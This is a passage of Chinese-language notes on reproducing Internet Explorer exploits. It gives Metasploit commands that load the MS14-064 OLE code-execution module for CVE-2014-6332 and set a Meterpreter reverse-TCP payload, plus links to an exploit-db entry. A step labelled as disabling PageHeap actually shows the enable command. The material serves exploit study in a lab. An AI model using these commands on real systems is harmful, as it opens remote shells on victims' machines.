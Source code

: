 

12. 关闭PageHeap

```bash
gflags.exe /p /enable iexplore.exe
```



### 待看

主参考文章：https://connormcgarr.github.io/browser1/

exp: https://www.exploit-db.com/exploits/28187









.sympath SRV*cache*https://msdl.microsoft.com/download/symbols







## CVE-2014-6332















### msfconsole复现

参考：https://www.cnblogs.com/tsimfeiwan/p/11993640.html

```bash
msfconsole
search MS14_064
use exploit/windows/browser/ms14_064_ole_code_execution
show payloads
```



```bash
msf6 exploit(windows/browser/ms14_064_ole_code_execution) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
```



设置

